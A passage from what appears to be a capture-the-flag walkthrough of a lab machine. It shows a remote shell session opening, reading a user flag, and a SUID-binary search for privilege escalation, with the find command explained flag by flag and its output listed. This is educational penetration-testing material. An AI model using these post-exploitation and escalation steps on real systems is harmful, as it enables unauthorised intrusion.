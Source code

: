 [*] Reading from socket B
[*] B: "o9TguQKChBhEyHVo\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.10.14.51:4444 -> 10.10.10.3:58496) 
</pre>

Now we have a basic shell on the remote machine, we can gather some information and grab the user flag.

<pre>
<kw>$</kw> whoami & hostname & pwd
daemon
lame
/tmp
<kw>$</kw> cd /home/ && ls
ftp
makis
service
user
<kw>$</kw> ls makis
user.txt
<kw>$</kw> cat makis/user.txt
</pre>

We don't yet have access to /root/, however, so we need to escalate our privileges.

Let's check which programs have the ability to set our UID to the owner's, with the following command:

`find / -perm -u=s -type f 2>/dev/null`

`/` says to search everything in the root directory,

`-perm -u=s` specifies that we should only match files that have SUID permissions,

`-type f` will match just regular files, and

`2>/dev/null` directs all stderr (like files that aren't matches) to /dev/null, discarding it. Here's the output:

<pre>
/bin/umount
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/sbin/mount.nfs
/lib/dhcp3-client/call-dhclient-script
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/netkit-rsh
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/netkit-rlogin
/usr/bin/arping
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/nmap
/usr/bin/chsh
/usr/bin/netkit-rcp
/usr/bin/passwd
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd